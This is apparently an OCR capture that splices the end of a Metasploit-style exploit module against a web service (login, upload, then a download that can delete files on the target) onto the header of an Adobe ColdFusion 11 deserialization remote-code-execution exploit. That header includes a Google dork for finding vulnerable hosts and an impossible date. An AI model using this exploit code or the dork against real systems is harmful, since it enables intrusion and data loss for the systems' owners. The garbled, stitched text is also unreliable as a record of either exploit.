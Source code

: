     if res.nil?
      fail_with(Failure::Unreachable, 'Download request failed.')
    end

    if res.code != 200
      fail_with(Failure::Unknown, res.body)
    end

    if res.headers['Content-Type'] == 'application/json'
      json_res = res.get_json_document

      if json_res['error']
        fail_with(Failure::Unknown, json_res['error'])
        return
      end
    end

    print_status res.body
  end

  def run
    if datastore['DEFANGED_MODE']
      warning = <<~EOF
        Triggering this vulnerability may delete the local file if the web service user has the permission.
        If you want to continue, disable the DEFANGED_MODE.
        => set DEFANGED_MODE false
      EOF

      fail_with(Failure::BadConfig, warning)
    end

    try_login
    try_upload
    try_download
  end
end
# Exploit Title: Adobe ColdFusion 11 - LDAP Java Object Deserialization Remode Code Execution (RCE)
# Google Dork: intext:"adobe coldfusion 11"
# Date: 2022-22-02
# Exploit Author: Amel BOUZIANE-LEBLOND (https://twitter.com/amellb)
# Vendor Homepage: https://www.adobe.com/sea/products/coldfusion-family.html
# Version: Adobe Coldfusion (11.0.03.292866)
# Tested on: Microsoft Windows Server & Linux
